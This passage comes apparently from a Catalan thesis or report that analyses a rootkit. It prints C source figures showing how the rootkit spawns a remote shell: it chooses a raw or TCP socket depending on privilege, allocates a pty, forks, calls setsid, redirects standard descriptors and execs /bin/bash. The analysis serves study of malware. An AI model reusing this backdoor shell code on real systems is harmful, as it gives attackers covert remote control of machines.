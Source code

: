 \begin{figure}[h!]
\begin{Verbatim}[commandchars=@\[\]]
@PYay[case] SHELL:
    debug(@PYaB["]@PYaB[Launching shell]@PYao[\n]@PYaB["]);
    @PYay[if] (@PYbe[!]getuid()) {
        debug(@PYaB["]@PYaB[Starting DirectRAW service]@PYao[\n]@PYaB["]);
        r @PYbe[=] create_rawsock_session(rawsocks, ip@PYbe[-]@PYbe[>]s_addr, sport, d@PYbe[-]@PYbe[>]port);
        @PYay[if] (fork()) @PYay[return];
        launcher_shell(r@PYbe[-]@PYbe[>]r@PYZlb[]@PYag[0]@PYZrb[], r@PYbe[-]@PYbe[>]w@PYZlb[]@PYag[1]@PYZrb[]);
        destroy_rawsock_session(r); 
    } 
    @PYay[else] {
        @PYay[if] (fork()) @PYay[return];
        launcher_shell(sock, sock);
        close(sock); 
    }
    @PYay[break];
\end{Verbatim}
\caption{Creació del procés per a la gestió de la connexió}
\label{fig:launcher_do_action}
\end{figure}

Això ho podem veure a la figura \ref{fig:launcher_do_action}, just abans de la crida launcher\_shell(). Podem veure en aquesta mateixa figura que depenent de l'usuari que executi el codi, el rootkit utilitzarà un raw socket o no. Això és perquè l'acció 
SHELL, només s'executa en mode RAW i en mode TCP. En mode RAW, el rootkit s'està executant com a usuari privilegiat, i en
mode TCP no. \\

Un cop tenim
el procés que gestiona la nostre connexió, aquest obre el tty, lliga els seus descriptors de fitxer amb el, i executa la shell tal i com es pot veure a la figura \ref{fig:launcher_launcher_shell}. \\

\begin{figure}[h!]
\begin{Verbatim}[commandchars=@\[\]]
pty @PYbe[=] open(@PYaB["]@PYaB[/dev/ptmx]@PYaB["], O_RDWR);
grantpt(pty); 
unlockpt(pty);
tty @PYbe[=] open(ptsname(pty), O_RDWR);

@PYay[if](@PYbe[!](subshell @PYbe[=] fork())) {
    @PYay[if] (fork() @PYbe[!]@PYbe[=] @PYag[0]) exit(@PYag[0]);
    close(pty); 
    close(sock);
    @PYaE[// new session to be used with bash]
    setsid();
    ioctl(tty, TIOCSCTTY, @PYaX[NULL]);
    @PYaE[// start using the new tty]
    dup2(tty, @PYag[0]); 
    dup2(tty, @PYag[1]); 
    dup2(tty, @PYag[2]);
    close(tty);
    @PYay[if] (getuid()) chdir(@PYaB["]@PYaB[/var/tmp]@PYaB["]);
    @PYay[else] chdir(HOME);
    execve(@PYaB["]@PYaB[/bin/bash]@PYaB["], argv_bash, envp);
\end{Verbatim}
\caption{Obtenció del tty i asignació amb l'entrada/sortida estàndard}
\label{fig:launcher_launcher_shell}
\end{figure}

